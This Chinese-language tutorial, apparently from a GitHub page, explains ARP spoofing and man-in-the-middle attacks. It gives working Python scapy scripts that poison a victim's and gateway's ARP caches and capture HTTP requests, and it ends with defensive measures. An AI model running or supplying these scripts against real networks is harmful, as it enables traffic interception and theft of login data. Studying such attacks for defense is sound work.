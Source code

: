 ARP 欺騙與中間人攻擊（MITM）是網路安全中常見的攻擊技術。這些攻擊可以讓攻擊者攔截、篡改甚至竊取在網絡中傳遞的數據。以下是這兩種攻擊的基本概念和如何使用 Python 來實現簡單的模擬攻擊。

### 1. **ARP 欺騙（ARP Spoofing）**
ARP 欺騙（或稱為 ARP 中毒）是利用局域網中的 ARP（地址解析協議）漏洞，攻擊者偽造 ARP 封包，將自己的 MAC 地址與目標設備的 IP 地址進行綁定，從而攔截或篡改流經網路的數據。

#### 1.1 **ARP 欺騙的 Python 實現**
在這個範例中，我們會模擬一個簡單的 ARP 欺騙攻擊，將受害者的 IP 地址綁定到攻擊者的 MAC 地址上。

```python
import scapy.all as scapy

# 发送ARP包
def spoof(target_ip, spoof_ip):
    # 生成ARP响应包，目标IP替换成受害者，源IP替换成攻击者的IP
    arp_response = scapy.ARP(op=2, pdst=target_ip, psrc=spoof_ip, hwdst="ff:ff:ff:ff:ff:ff")
    scapy.send(arp_response, verbose=False)
    print(f"Sending spoofed ARP to {target_ip} [spoofed IP: {spoof_ip}]")

# 受害者和網關的 IP 地址
target_ip = "192.168.1.5"  # 假設目標IP
gateway_ip = "192.168.1.1"  # 假設網關IP

# 持續發送 ARP 欺騙封包
while True:
    spoof(target_ip, gateway_ip)
    spoof(gateway_ip, target_ip)
```

在這個範例中，`scapy` 库用于发送 ARP 响应包。攻击者发送伪造的 ARP 包，将受害者的 IP 地址与攻击者的 MAC 地址绑定，使得网络流量流向攻击者设备。`target_ip` 是目标设备的 IP 地址，`gateway_ip` 是网关的 IP 地址。

### 2. **中間人攻擊（MITM）**
中間人攻擊（MITM）是指攻擊者在通信的兩個主體之間插入自己，從而能夠攔截、篡改或轉發通信內容。在 ARP 欺騙的基礎上，攻擊者可以進行 MITM 攻擊，攔截來自受害者到網關的通信流量，進行監聽、篡改或插入數據。

#### 2.1 **ARP 欺騙與 MITM 攻擊結合**

攻擊者可以利用 ARP 欺騙來將網路流量引導到自己身上，這樣他就可以攔截受害者的所有網絡請求和響應。以下是如何結合 ARP 欺騙和 MITM 攻擊來實現對 HTTP 通信的攔截和篡改。

```python
import scapy.all as scapy
from scapy.layers.l2 import ARP
from scapy.sendrecv import send, sniff

# ARP 欺騙
def spoof(target_ip, spoof_ip):
    arp_response = ARP(op=2, pdst=target_ip, psrc=spoof_ip, hwdst="ff:ff:ff:ff:ff:ff")
    send(arp_response, verbose=False)

# 攔截 HTTP 請求並篡改
def http_sniff(packet):
    if packet.haslayer(scapy.IP) and packet.haslayer(scapy.TCP):
        ip_src = packet[scapy.IP].src
        ip_dst = packet[scapy.IP].dst
        if packet.haslayer(scapy.Raw):
            load = packet[scapy.Raw].load
            if b"GET" in load or b"POST" in load:
                print(f"HTTP Request from {ip_src} to {ip_dst}: {load}")

# 受害者與網關的 IP 地址
target_ip = "192.168.1.5"  # 目標IP
gateway_ip = "192.168.1.1"  # 網關IP

# 開始ARP欺騙，並攔截HTTP流量
while True:
    spoof(target_ip, gateway_ip)  # 讓目標向攻擊者發送流量
    spoof(gateway_ip, target_ip)  # 讓網關向攻擊者發送流量
    sniff(filter="ip", prn=http_sniff, store=0, timeout=10)
```

在這個範例中，攻擊者不僅會發送 ARP 欺騙包，還會通過 `sniff` 函數攔截流經網絡的 HTTP 請求，並打印出來。這個腳本會不斷地向目標和網關發送 ARP 欺騙包，從而確保流量經過攻擊者，並對 HTTP 請求進行捕獲。

### 3. **防禦與緩解措施**
對於 ARP 欺騙和中間人攻擊，以下是一些防禦措施：
- **使用靜態 ARP 表**：手動設置 ARP 表，防止ARP欺騙。
- **ARP 欺騙檢測工具**：使用工具如 `arpwatch` 或其他 ARP 檢測工具來檢測是否有異常的 ARP 包。
- **加密通信**：使用 HTTPS 等加密協議來保護數據，防止被攔截或篡改。
- **VPN（虛擬專用網絡）**：在公共網絡中使用 VPN 可以有效隔離攻擊者。

### 結論

在這一節中，我們介紹了如何使用 Python 模擬 ARP 欺騙與 MITM 攻擊。這些攻擊技術通常用來竊取敏感數據（如帳戶登錄信息、未加密的 HTTP 請求等），並且攻擊者可以利用這些技術來操縱網絡通信。防範這些攻擊的最佳方式是使用強加密協議（如 HTTPS、VPN）並監控網絡中的 ARP 異常。